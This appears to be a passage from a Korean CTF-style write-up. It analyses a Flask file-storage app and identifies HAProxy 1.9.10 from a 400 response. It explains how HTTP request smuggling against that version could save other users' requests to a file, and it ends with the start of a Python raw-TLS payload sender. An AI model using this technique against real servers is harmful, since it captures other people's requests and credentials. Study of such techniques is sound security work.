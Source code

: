 ```python
# filestore = store.LocalStore()

@app.route("/files/", methods=["POST"])
def add_file():
    if request.headers.get("Content-Type") != "text/plain":
        abort(422)

    guid = request.headers.get("X-guid", "")
    if not GUID_RE.match(guid):
        abort(422)

    filestore.save(guid, request.data)
    return "", 201

@app.route("/files/<guid>", methods=["GET"])
def get_file(guid):
    if not GUID_RE.match(guid):
        abort(422)

    try:
        return filestore.read(guid), {"Content-Type": "text/plain"}
    except store.NotFound:
        abort(404)

@app.route("/", methods=["GET"])
def root():
    return "", 204
```

app.py를 분석해보면 크게 파일을 저장하는 기능과 파일을 읽는 기능이 존재합니다. 저장할 때 X-guid 헤더에 파일을 식별할 수 있는 고유번호를 uuid 포맷 형식으로 입력하게 되면 파일이 저장됩니다.

![/assets/93be687b-4ece-452c-ac1b-db30211c563f/ca0a7872-66f3-49cc-83ba-0139a882b338.png](/assets/93be687b-4ece-452c-ac1b-db30211c563f/ca0a7872-66f3-49cc-83ba-0139a882b338.png)

위와 같이 패킷 형식을 올바르지 않게 전송할 경우 400 (Bad Request) 상태 코드로 응답과 함께 헤더에 haproxy 1.9.10 버전이 포함되어 전송되는 것을 확인할 수 있었습니다. HAProxy는 2.0.6 이전 버전에서 HTTP Request Smuggling 취약점이 존재합니다.

따라서 HTTP request smuggling 취약점을 이용하여 /files/ 경로에 X-guid 헤더를 포함하여 전송하면 타인이 요청한 HTTP request 패킷을 파일로 저장시킬 수 있습니다. 

```python
import socket, ssl
from time import sleep
from urllib.parse import urlparse

def send_payload(host, data):
    context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s_sock = context.wrap_socket(s, server_hostname=host)
    s_sock.connect((host, 443))
    s_sock.send(data)

    data = s_sock.recv(102400)
    s_sock.close()
```